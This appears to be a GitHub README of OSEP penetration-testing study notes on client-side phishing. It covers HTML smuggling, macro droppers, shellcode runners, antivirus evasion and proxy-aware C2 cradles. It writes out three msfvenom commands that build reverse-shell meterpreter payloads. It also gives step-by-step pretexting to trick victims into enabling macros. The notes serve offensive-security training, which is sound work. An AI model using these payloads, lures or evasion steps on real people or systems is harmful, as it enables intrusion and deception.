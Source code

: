 # OSEP-Rebirth

## Table of Content

* 1.0 [Client Side - Phishing Attacks](#CSPhishing)
  * 1.1 [HTML Smuggling](#Smuggling)
  * 1.2 [VBA - Phishing](#VBAPhishing)
  * 1.3 [VBA - PreTexting](#VBAPreTexting)
  * 1.4 [VBA - VBA Shellcode Runner](#VBARunner)
  * 1.5 [Powershell - Shellcode Runner](#PSRunner)
  * 1.6 [PowerShell - Reflection Shellcode Runner](#PSReflection)
  * 1.7 [PowerShell - Bypass Proxy](#PSProxy)
* 2.0 [Client Side Code Execution With Windows Script Host](#CSWSH)


# Client Side - Phishing Attacks<a name="CSPhishing"></a>


## HTML Smuggling<a name="Smuggling"></a>

### JavaScript code to trigger HTML Smuggling

* This technique will download a meterpreter payload once the web page is loaded by the user. (may be blocked by smart screen or other protections)

Codes can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.1-HTML_Smuggling">here</a>


## VBA - Phishing<a name="VBAPhishing"></a>

* This techniques will run a macro (once user enable them), that will download on disk a meterpreter payload and execute it hidden from the user.
* Tested using Office 2016 Pro
* The document must be saved in a Macro-Enabled format such as ".doc" or ".docm". The newer ".docx" will not store macros.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.2-VBA_Phishing">here</a>

1. Make a script to download the payload in powershell.
Here is how download a file in powershell.

2. Combining the piece with VBA. Make a macro that will pull the meterpreter executable from our web server when the document is opened and macro are enabled. The delay is to allow the file to completely download. Finally the file is executed hidden from the user.


## VBA - PreTexting<a name="VBAPreTexting"></a>

### The Old Switcheroo

* This technique is used to trick the user to press on the "Enable Editing" and "Enable Content" button to allow macro execution.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.3-VBA_PreTexting">here</a>

1. Create an "encrypted" word page content, something in the idea "This file is encrypted, please Enable Editing and Enable content to decrypt it".
2. Make a copy of this word document.
3. Delete the content, and create your "decrypted" content. If you'r target work in human resource, make a CV as example.
4. Once the content created, select it and navigate to "Insert > Quick Parts > AutoTexts" and "Save Selection to AutoText Gallery.
5. Pick a name for the AutoText gallery.
6. Now that the content is stored, delete the content in the main text area and replace it with the content of our "encrypted" word document.
7. Create the VBA macro to replace the "encrypted" content with the "decrypted" content.

## VBA - VBA Shellcode Runner<a name="VBARunner"></a>

* This macro execute shellcode in memory by using Win32 APIs to avoid detection.
* Use the exit function "thread" while generating the payload to avoid word to close when the shellcode exit.
* If the victim close Word, our shell will die.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.4-VBA_VBA_Shellcode_Runner">here</a>

1. Generate a msf payload formatted as vbapplication.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.22 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. Create the macro adding your generated array payload to it.


## PowerShell - Shellcode Runner<a name="PSRunner"></a>

* This macro download a PowerShell script and run it into memory. Then it will launch the PowerShell script as child process to avoid losing our shell once the victime close Microsoft Word. 

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.5-PowerShell_Shellcode_Runner">here</a>

1. Generate the shellcode in PowerShell format using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.22 LPORT=443 EXITFUNC=thread -f ps1
```

2. Create "run.ps1" script.

3. Create the VBA macro which will download the ps1 code in memory and execute it.


## PowerShell - Reflection Shellcode Runner<a name="PSReflection"></a>

* This PowerShell script avoid creating artifacts on the hard drive that may be identified by Anti Virus.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.6-PowerShell_Reflection_Shellcode_Runner">here</a>

1. Generate the shellcode in PowerShell format using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.22 LPORT=443 EXITFUNC=thread -f ps1
```

2. Create "run.ps1" script.

3. Create the VBA macro which will download the ps1 code in memory and execute it.


## PowerShell - Bypass Proxy<a name="PSProxy"></a>

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.7-PowerShell_Bypass_Proxy">here</a>

### Proxy-Aware Communication
* Bypass proxy server when downloading file with PowerShell, by nulling the proxy settings 
* Customize User-Agent

### SYSTEM integrity proxy-aware download cradle

* Handle communication through a proxy, even as SYSTEM.
* HTTP request is routed through the proxy server and will allow our download cradle to call back to our C2 even when all traffic must go through the proxy.


# Client Side Code Execution With Windows Script Host<a name="CSWSH"></a>

